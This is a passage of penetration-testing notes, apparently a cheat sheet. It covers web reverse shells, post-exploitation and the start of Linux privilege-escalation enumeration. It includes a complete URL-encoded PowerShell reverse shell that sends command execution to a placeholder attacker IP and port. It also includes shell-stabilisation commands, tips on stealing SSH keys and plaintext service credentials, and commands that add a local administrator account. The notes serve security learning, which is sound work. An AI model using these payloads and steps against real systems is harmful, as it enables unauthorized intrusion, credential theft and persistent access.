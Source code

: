 [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  
`/usr/share/webshells/php/php-reverse-shell.php`: in kali  

PHP alternative extentions: `.php .php3 .php4 .php5 .phtml`  

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:  
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

If the shell is not stable, use bash by python and pty.
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
$ export TERM=xterm
$ export SHELL=bash
```

### Next Steps  
On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.  
<br>

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.  
Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges.  
`net user <username> <password> /add`  
`net localgroup administrators <username> /add`  

## Linux Privilege Escalation
### Enumeration
- `hostname`: return the hostname of the target machine  
- `uname -a`: print system more information about the kernel
- `/proc/version`: provides information about the target system processes
- `/etc/issue`: contains some information about the operating system  
- `ps`: see the running processes  
    - PID: The process ID (unique to the process)
    - TTY: Terminal type used by the user
    - Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
    - CMD: The command or executable running (will NOT display any command line parameter)  
    - `ps -A`: view all running processes
    - `ps axjf`: view process tree 
    - `ps aux`: show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x)  
- `env`: show environmental variables  
    <details>